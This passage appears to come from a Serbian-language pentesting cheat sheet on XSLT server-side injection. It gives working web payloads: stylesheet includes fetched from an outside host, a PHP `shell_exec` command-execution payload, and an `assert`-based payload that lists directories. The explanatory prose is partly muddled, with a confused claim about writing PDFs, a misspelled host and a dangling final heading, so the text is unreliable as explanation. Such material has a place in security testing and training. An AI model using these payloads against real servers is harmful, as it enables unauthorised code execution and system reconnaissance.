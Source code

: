 ## Uključivanje spoljnih XSL fajlova

Kada koristite XSLT server-side injection, možete uključiti spoljne XSL fajlove kako biste pisali fajlove u PDF formatu. Ovo vam omogućava da iskoristite funkcionalnosti eksternih XSL fajlova za manipulaciju PDF datotekama.

Da biste to postigli, možete koristiti `document()` funkciju u XSLT kodu kako biste učitali spoljni XSL fajl. Zatim možete koristiti XSLT transformacije da biste generisali PDF datoteku sa željenim sadržajem.

Na primer, možete uključiti spoljni XSL fajl koji sadrži XSLT transformacije za generisanje PDF datoteke. Zatim možete koristiti ove transformacije da biste generisali PDF datoteku sa željenim sadržajem, kao što su tekst, slike ili tabele.

Važno je napomenuti da prilikom korišćenja ove tehnike treba biti oprezan da se ne dozvoli neovlašćen pristup ili manipulacija sa sistemom. Takođe, treba proveriti da li je platforma koju koristite podržava ovu funkcionalnost i da li postoje odgovarajuće bezbednosne mere zaštite.

```xml
<xsl:include href="http://extenal.web/external.xsl"/>
```

```xml
<?xml version="1.0" ?>
<?xml-stylesheet type="text/xsl" href="http://external.web/ext.xsl"?>
```

## Izvršavanje koda

### **php:function**

```xml
<?xml version="1.0" encoding="utf-8"?>
<xsl:stylesheet version="1.0"
xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
xmlns:php="http://php.net/xsl" >
<xsl:template match="/">
<xsl:value-of select="php:function('shell_exec','sleep 10')" />
</xsl:template>
</xsl:stylesheet>
```

```xml
<?xml version="1.0" encoding="UTF-8"?>
<html xsl:version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl">
<body style="font-family:Arial;font-size:12pt;background-color:#EEEEEE">
<xsl:copy-of name="asd" select="php:function('assert','var_dump(scandir(chr(46).chr(47)));')" />
<br />
</body>
</html>
```

Izvršite kod koristeći druge okvire u PDF-u
